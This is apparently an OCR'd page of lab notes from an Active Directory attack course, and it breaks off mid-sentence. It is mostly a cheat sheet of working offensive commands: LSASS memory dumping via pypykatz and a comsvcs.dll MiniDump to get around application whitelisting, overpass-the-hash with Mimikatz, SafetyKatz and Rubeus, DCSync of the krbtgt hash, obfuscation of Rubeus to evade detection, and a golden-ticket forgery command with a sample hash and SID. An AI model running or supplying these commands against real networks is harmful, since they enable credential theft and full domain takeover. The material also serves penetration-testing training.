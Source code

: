 # Using pypykatz (Mimikatz functionality in Python)
pypykatz.exe live lsa
# Using comsvcs.dll (lol bin to bypass application white list)
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump
<lsass process ID> C:\Users\Public\lsass.dmp full


# Over Pass the hash (OPTH) generate tokens from hashes or keys. Needs elevation(Run as administrator)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys> /run:cmd.exe" "exit"
## The above commands starts a PowerShell session with a logon type 9 (same as runas /netonly).

#  Below doesn't need elevation ( This overwrites the current tickets)
Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt
#  Below command needs elevation ( This starts a new process and if you run whoami you will not see ur impersonated admin privs. Because the proccess starts with logon type 9 so new credentials are used when you access network resources !)
Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

# To use the DCSync feature for getting krbtgt hash execute the below command with DA privileges for us domain:
`Invoke-Mimikatz -Command '"lsadump::dcsync /user:us\krbtgt"'`
SafetyKatz.exe "lsadump::dcsync /user:us\krbtgt" "exit"

### Obfuscation
For Rubeus.exe, use ConfuserEx (https://github.com/mkaring/ConfuserEx) to obfuscate the binary.


# Execute mimikatz on DC as DA to get krbtgt hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'–Computername dcorp-dc


# Golden ticket :
`Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"`z *Explanation : name of the module,Username for which the TGT is generated (use an active domain admin with high logon count),Domain FQDN,SID of the domain,NTLM (RC4) hash of the krbtgt account or Use /aes128 and
/aes256 for using AES keys which is MORE SILENT,Optional User RID (default 500) and Group default 513 512 520 518 519),Injects the ticket in current PowerShell process - no need to